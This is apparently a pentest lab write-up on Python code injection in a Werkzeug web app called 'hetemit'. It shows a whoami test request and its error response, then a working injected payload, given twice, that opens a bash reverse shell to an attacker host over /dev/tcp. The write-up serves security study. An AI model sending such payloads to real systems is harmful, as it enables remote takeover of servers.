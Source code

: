 # Code Injection

In the case of heremit, we had a web application that by changing from POST and GET request we were able to deduce that there was a parameter named 'code' in which we could send malicious code.&#x20;

![](<../../../.gitbook/assets/image (75).png>)

Let’s us try to send a `POST` request against the directory `/verify` and the body request is filled with the `code` parameter.

The payload might look as following:

```
POST /verify HTTP/1.1
Host: 192.168.101.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _register_hetemit_session=GK6KJri2ylafDgK%2F6lIyUBw9ZFUG2JwfR2XUy%2Be%2BBxow52YsWOyvti%2FQ4YVuCMMzuGNZB%2FMy4NXQxqDQ%2FeNGm5IQFQW7f94Ou4PByd3u2B7pqfMazR0jVFdSF5vBSV4vUo0J5ZT%2FhHql%2BaR5TKp%2BAnKBITheUGIE7AHyAEbvc%2B5KeSFsQ5mdZrJz46COTOZXBdmvfLlMIEisXpzZPwA3uTow5ziDY54D2MrJDVtpCFQ5YWqaEZeSb0js5JggvLZF7K26sxfSr17MsEphdt%2FopNZxNR4kckDId5%2FsUV9Yla%2Bc--0LA3avph4XEwY4vn--zaptbla4hpI7tLNc87OpLw%3D%3D
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

code=whoami
```

After the request was sent, we can further inspect response.

Here is the response:

```
HTTP/1.0 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 290
Server: Werkzeug/1.0.1 Python/3.6.8
Date: Fri, 20 Aug 2021 05:01:07 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

The response code `500 INTERNAL SERVER ERROR` indicates that something is wrong at the backend. At this point, we fully comprehend that the server does not sanitize our input properly, which ends up our entry breaking something up at the other end.

So werksbeurg whatever is a  python based application so if we instead in the code parameter we could possibly try to inject python code and receive a reverse shell like so:

```
POST /verify HTTP/1.1
Host: 192.168.135.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _register_hetemit_session=i3LCbUrypmdG9OcuyyPoopRsAJoYUvJZJ7Ao629aKWO9TOz%2FPXogNuURVQknBTLGZE2auMwJQU2zLazwm%2FUU857KkNKSNHFat%2BiJUjWlRnLd%2FiRfAw8SfM6flojZf2JWCPsdYjTOgEJo%2BB6MxQJKvHywtnfGoi3xQw5TDJeeIttDKEpHNpVA2yfcdqVCQGZYI0ta3aOqbyfO%2BHOvVvgGfcXQvaWjiQ7EyzCSGM6awUbWEdbP2xDWg8v9nj2j1H%2FaoHavuFuvykCMzAWLhlqHAeDmlcpSHTwqWZxb%2Bj2F4dFJ--%2FZT%2BQu5bm7cflrjk--frmYurXk5lbvi246tVKQDg%3D%3D
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 94

code=__import__("os").system("bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.135/80+0>%261'")
```

```
__import__("os").system("bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.101/80+0>%261'")
```

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

